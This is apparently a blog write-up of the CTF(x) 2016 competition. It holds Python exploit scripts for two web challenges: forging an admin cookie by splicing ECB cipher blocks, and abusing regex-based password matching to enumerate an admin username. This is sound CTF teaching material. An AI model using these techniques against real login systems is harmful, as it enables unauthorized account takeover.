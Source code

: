 ```yaml
---
layout: post
alias: "/blog/2016/08/29/ctf-x-2016/"
date: "2016-08-29T21:12:07+09:00"
title: "CTF(x) 2016"
tags: [ "ctf", "writeup", "ctf-x" ]
"target_url": [ "http://ctfx.io/" ]
---
```


pwnは遅れて公開されたのだが、2日目がkatagaitai勉強会と(あとworld codesprintや学校とも)で衝突を起こしており、参加時間が取れずpwnを開けなかった。
web50 north koreaをtukejonnyさんが解いててエスパーっぽくてプロかったのが印象的。
for100 passwordはfcrackzip + pkcrackというのは合っていて既知平文も正しかったのだが、`pkcrack`に渡すoptionsでミスがあったため解けず。
misc150 cafebabeも方針は合っていたが文字読み取りの精度が足らずで解けず。python/PILで書いたのは速度面で明らかな失敗であった。


## customauth

The flag is obtained by a ciphertext of a json which contains `"admin":true`.
It uses a block cipher in ECB mode.
You can construct the ciphertext chunk-wise, using the fact that the correspondence of plaintexts and ciphertexts are independent of positions and other chunks.

I needed to send the `admin` field with empty string to get the chunk like `AAAAAA","admin":`.

``` python
#!/usr/bin/env python3
import re
import json
import requests
import collections

chunk = lambda s, l: [s[i:i+l] for i in range(0, len(s), l)]

def encrypt(url, payload):
    resp = requests.post(url, data=payload, allow_redirects=False)
    auth = resp.headers['Set-Cookie'].split()[0][5:-1]
    return auth

def stringify(params): # for ordering and spaces
    return '{' + ','.join(['"%s":%s' % (k, json.dumps(params[k])) for k in params]) + '}'

def check_encrypt(url, params, plain):
    t = stringify(params)
    t = chunk(t, 16)
    i = t.index(plain)
    s = encrypt(url, params)
    assert len(s) % 32 == 0
    s = chunk(s, 32)
    print(repr(plain), s[i])
    return s[i]

import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='problems.ctfx.io')
parser.add_argument('port', nargs='?', default=7001, type=int)
args = parser.parse_args()

f = lambda x, *ys: check_encrypt('http://{}:{}/login'.format(args.host, args.port), collections.OrderedDict(ys), x)

auth = ''
auth += f(r'{"username":"AAA', ('username', r'AAA'), ('password', 'password'))
auth += f(r'AAAAAA","admin":', ('username', r'AAAAAAAAA'), ('admin', ''), ('password', 'password'))
auth += f(r'true,           ', ('username', r'AAAtrue,           '), ('password', 'password'))
auth += f(r'"password":"A"}',  ('username', r'A'), ('password', 'A'))
print('auth=' + auth)

resp = requests.get('http://{}:{}'.format(args.host, args.port), headers={ 'Cookie': 'auth=' + auth })
flag = re.search(r'ctf\([^)]*\)', resp.text).group(0)
print(flag)
```

## HarambeHub

Inject your regular expressions.
Since it compares strings with `String.matches`, not `String.equals`, you can use `.*` instead of the true password.

``` java
    public boolean verify(String username, String password) {
        return this.username.equals(username) && this.master.matches(password);
    }
```

The password is trivial, but the username who has a flag is unknown.
You know your username is `[Member] foo` and not simply `foo`, so you can think that an user `[Admin] bar` exists.
You can do binary search to determine the exact username, and you will get the flag.

``` sh
$ curl 'http://problems.ctfx.io:7003/users?username=\\[A.*&password=password&real_name=real_name' -X POST
FAILED: User with that name already exists!
```

``` python
#!/usr/bin/env python3
import string
import time
import urllib.request
import urllib.parse

def query_users(username, password, real_name):
    url = 'http://problems.ctfx.io:7003/users?{}'.format(
            urllib.parse.urlencode( { 'username': username, 'password': password, 'real_name': real_name }))
    print('POST', url)
    time.sleep(1)
    req = urllib.request.Request(url)
    req.method = 'POST'
    with urllib.request.urlopen(req) as resp:
        return resp.read().decode()
    return query_users(username, password, real_name)
def query_name(username, password):
    url = 'http://problems.ctfx.io:7003/name?{}'.format(
            urllib.parse.urlencode( { 'username': username, 'password': password }))
    print('GET', url)
    time.sleep(1)
    req = urllib.request.Request(url)
    with urllib.request.urlopen(req) as resp:
        return resp.read().decode()
def match_users(regex):
    s = query_users(regex, 'password', 'real_name')
    if s == 'FAILED: User with that name already exists!':
        return True
    else:
        assert s.startswith('OK: Your username is ')
        return False

s = '' # Arxenixisaloser
while True:
    for letters in [ string.ascii_lowercase, string.ascii_uppercase, string.digits ]:
        if not match_users(r'\[Admin\] {}[{}-{}].*'.format(s, letters[0], letters[-1])):
            continue
        l = 0
        r = len(letters) - 1
        while l < r: # [l, r]
            m = (l + r) // 2
            if match_users(r'\[Admin\] {}[{}-{}].*'.format(s, letters[0], letters[m])): # c <= m
                r = m
            else: # m < c
                l = m+1
        s += letters[l]
        break
    else:
        break
    print('FLAG', s)
print(query_name(r'[Admin] ' + s, '.*')) # ctf(h4r4mb3_d1dn1t_d13_4_th1s_f33ls_b4d)
```
